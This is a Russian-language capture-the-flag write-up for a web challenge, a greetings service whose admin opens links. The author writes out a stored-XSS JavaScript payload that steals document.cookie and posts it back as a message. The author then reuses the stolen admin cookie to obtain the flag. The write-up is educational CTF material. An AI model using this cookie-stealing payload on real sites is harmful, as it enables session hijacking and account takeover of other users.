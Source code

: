 Web

# Web
## [2.2] Новогоднее поздравление
 > У нас же новый год, верно?
 > Так как в текущих условиях нельзя поздравлять лицом-к-лицу, то мы создали сервис, на котором вы можете отправлять приглашения друг-другу!

 > Говорят, что у админа есть особое поздравление для вас... Только он его отдавать почему-то не хочет. Но с радостью открывает ссылки в поздравлениях для него. 84.201.172.73:12004

 > Кто решит данный таск получит отдельную 5+ с большим коэффициентом. Hint1: Вам нужно получить куку админа. Для этого вспомните все, что мы проходили и пересмотрите задачи на requests, один из сайтов вам поможет.

Категория: `web` `not_easy`

### Решение
Регистрируюсь на сайте. Пришло в голову протестировать систему приема сообщений на уязвимость XSS. Закинул тестовый payload себе в поздравления:
![01ff57a79a0dcad0b6ea900974bdbff2.png](../_resources/89bc584a63294eefbef21d3c22d51a36.png)
Если на сайте присутствует уязвимость XSS до мой код выполнится и слово "Получилось" будет красным.
![c1952e4ca063fe04ea7147ae74a0c93b.png](../_resources/14317a9fc19b49a5a8edab2af2292bd6.png)
Попробую составить код на javascript, который сворует куки чужого браузера (`document.cookies`) и с помощью POST запроса отправит мне в поздравления.
Смотрю на запрос отправки сообщения:
![d0e63b832fa8e679ec6de31fb215b334.png](../_resources/5b33abac634641848e5c3a9a3e97a504.png)
Поле `username` используется для указания ника собеседника, `congr` для указания самого сообщения.
Получившийся XSS код:
```html
<script>var req = new XMLHttpRequest();req.open("POST", "http://84.201.172.73:12004/congr");req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");req.send("username=test&congr="+encodeURIComponent(document.cookie));</script>
```
Тестирую на себе:
![58520ebb793637c0a39e027f02d1a2b8.png](../_resources/d810864aa54e4c43979bd3ab4fe6d417.png)
![8ee3a460d9ed68237c0bbb55d90f535e.png](../_resources/88c87f3349654e118c522e5305989691.png)
Работает!
Отправляю админу:
![6dedd39a049aa10e189e4f572d42f2ed.png](../_resources/dbc705998b694f348cdbb4776aca0f31.png)
![7fcc9160723edca6e84af57a1e588130.png](../_resources/0b322daedf7342e1b894ef1d33ecf9bd.png)
Получил куки, подставил.
![417f816693ec6c84653fe17531d90468.png](../_resources/8ecd36eb852640cfa1864f04bc97d4af.png)
![f07417e63fc409536b22212ef69b17b0.png](../_resources/bcbd3ac5a43446a4a66bfa2820e2cc1a.png)
`Имя: admin Админ: True` - Я под админом.
Здесь начинается веб за 50.
![14f19ae3737ef24942ed5606b40938a2.png](../_resources/0aaead849121443f9e8fb2ce466acbc6.png)
### Флаг
`mshp{n3w_y34r_styl3d_xx5_5xpl0iting_i5_s0_funny}`

